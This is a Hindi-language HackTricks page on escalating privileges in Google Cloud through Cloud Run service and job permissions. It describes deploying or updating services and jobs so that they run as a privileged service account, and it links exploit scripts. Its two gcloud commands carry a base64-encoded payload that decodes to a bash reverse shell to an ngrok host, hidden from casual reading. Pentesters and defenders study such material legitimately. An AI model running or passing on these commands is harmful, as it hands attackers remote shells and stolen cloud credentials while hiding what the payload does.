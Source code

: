 # GCP - Run Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## Cloud Run

Cloud Run के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`

_cloudfunctions.functions.create_ विधि के समान, यह विधि एक **नई Cloud Run सेवा** बनाती है जो, जब आमंत्रित की जाती है, **सर्विस अकाउंट का** एक्सेस टोकन वापस करती है जो सर्वर के मेटाडेटा API को एक्सेस करके प्राप्त किया जाता है। एक Cloud Run सेवा तैनात की जाएगी और टोकन प्राप्त करने के लिए इसे एक अनुरोध किया जा सकता है।

आपको **`run.services.setIamPolicy`** या **`run.routes.invoke`** की अनुमतियां भी चाहिए हो सकती हैं यदि आप इसे सार्वजनिक रूप से बनाने में सक्षम नहीं हैं ताकि कोई भी URL तक पहुँचकर इसे आमंत्रित कर सके (इसे संगठन नीतियों द्वारा रोका जा सकता है)।

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

इस विधि में एक शामिल Docker इमेज का उपयोग किया जाता है जिसे ठीक से शोषण करने के लिए बनाया और होस्ट किया जाना चाहिए। इमेज को इस तरह डिजाइन किया गया है कि Cloud Run को HTTP अनुरोध किए जाने पर सर्विस अकाउंट के एक्सेस टोकन के साथ प्रतिक्रिया करने के लिए कहा जाए।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) पाई जा सकती है और Docker इमेज [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage) पाई जा सकती है।

किसी कारण से, `gcloud run deploy` का उपयोग करते समय केवल सेवा बनाने के बजाय **इसे अपडेट अनुमति की आवश्यकता होती है**। [**यहाँ एक उदाहरण देखें**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

पिछले जैसा लेकिन एक सेवा को अपडेट करना
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

अपने आप को पिछले अनुमतियां दें Cloud Run पर।

### `run.jobs.create`,`run.jobs.run`,(`run.jobs.get`)

एक जॉब लॉन्च करें जिसमें रिवर्स शेल हो ताकि आदेश में दिखाए गए सर्विस अकाउंट की चोरी की जा सके। आप यहाँ एक [**exploit यहाँ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh) पा सकते हैं।

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

पिछले जैसा ही यह संभव है कि **एक जॉब को अपडेट करें और SA को अपडेट करें**, **कमांड** और **इसे निष्पादित करें**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Cloud Jobs पर पिछली अनुमतियाँ अपने आप को दें।

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से हीरो तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
